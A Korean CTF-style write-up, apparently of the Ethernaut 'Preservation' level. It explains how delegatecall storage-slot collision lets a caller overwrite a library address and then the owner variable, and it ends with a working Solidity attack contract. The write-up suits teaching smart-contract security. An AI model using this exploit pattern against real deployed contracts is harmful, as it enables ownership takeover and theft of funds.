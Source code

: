 setFirstTime과 setSecondeTime은 각 timeStamp 매개변수를 받아 Library의 setTime(uint256)함수의 인자로 넘겨주어 delegatecall을 실행시킨다. 그러면 Library 컨트랙트를 살펴보자.

### contract LibraryContract

```solidity
// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
```

인자로 받은 _time을 상태 변수인 storedTime에 저장하는 컨트랙트이다.

여기서 문제가 생긴다. 

delegatecall을 하여서 LibraryContract의 setTime을 수행하면 LibraryContract의 상태 변수가 존재하므로 EVM 내부적으로는 변수 이름 기준인 storedTime에 저장하는 것이 아닌 슬롯 순서인 0번 슬롯에 저장하는 방식으로 수행된다. 그런데 이 0번 슬롯은 호출한 컨트랙트의 0번 슬롯이 되므로 0번 슬롯에 존재하는 timeZone1Library를 덮어씌우게 된다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4118f706-0afa-4654-86ad-831e611a8a6f/Untitled.png)

이를 테스트하기 위해서 실제로 timeZone1Library를 덮어씌우는지 직접 문제 코드를 복사하여 VM에서 deploy하여 테스트해봤다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/48ba26dc-f278-435f-b284-b7307cab6bb7/Untitled.png)

timeZone1과 timeZone2에 LibraryContract 주소가 잘 들어가 있는 것을 확인할 수 있다. 하지만 setFirstTime을 실행시켜 0번 슬롯을 덮어씌우게 되면

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0e6e0174-dd7d-480e-8a02-ed9c672381c5/Untitled.png)

0번슬롯인 timeZone1Library 상태 변수가 덮어씌워진 것을 확인할 수 있다. 이를 이용하여 다음과 같이 공격을 진행할 것이다.

1. Preservation Contract의 owner를 나의 메타마스크 주소로 덮어씌워야 하므로 상태 변수 슬롯이 세개이며 setTime(uint256)함수가 존재하는 악의적인 Library Contract를 만든다.
2. 문제 인스턴스의 setFirstTime 함수를 실행시킬 때 인자를 내 악의적인 컨트랙트의 주소로 넣어준다.
3. 그러면 timeZone1Library함수가 내 악의적인 컨트랙트이므로 내 악의적인 컨트랙트 내의 setTime 함수코드는 세번째 상태변수 슬롯인 owner를 내 메타마스크 주소로 설정하도록 하면된다.   

# 공격

먼저 공격 컨트랙트를 작성하자.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IPreservation{
     function setFirstTime(uint _timeStamp) external;
}
contract PreservationAttack {

  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 

  function attack(address _target) public {
      IPreservation(_target).setFirstTime(uint256(uint160(address(this))));
  }
  function setTime(uint _time) public {
    owner=0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a;
  }
}
```